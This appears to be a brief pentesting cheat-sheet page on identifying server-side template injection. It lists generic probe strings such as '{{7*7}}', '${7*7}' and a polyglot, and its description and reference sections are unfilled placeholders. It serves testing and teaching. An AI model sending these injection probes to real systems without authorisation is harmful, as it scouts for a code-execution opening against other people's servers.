 # SSTI - General Identification

### Description
details
</br>&nbsp;

## Sub Techniques
### 1. Generic
```
<%= 7*7 %>
${7*7}
${{7*7}}
${{<%[%'"}}%\
#{7*7}
[7*7]
[[5*5]]
[[${42*42}]]
{{7*7}}
{{{42*42}}}
```

</br>&nbsp;
## References:
[Reference](link)</br>

<br>&nbsp;
## Support
You can Follow [me](https://twitter.com/MeAsHacker_HNA) on twitter or
<br><br><a href="https://www.buymeacoffee.com/NafisiAslH" target="_blank"><img src="https://cdn.buymeacoffee.com/buttons/v2/default-yellow.png" alt="Buy Me A Coffee" style="height: 60px !important;width: 217px !important;" ></a>
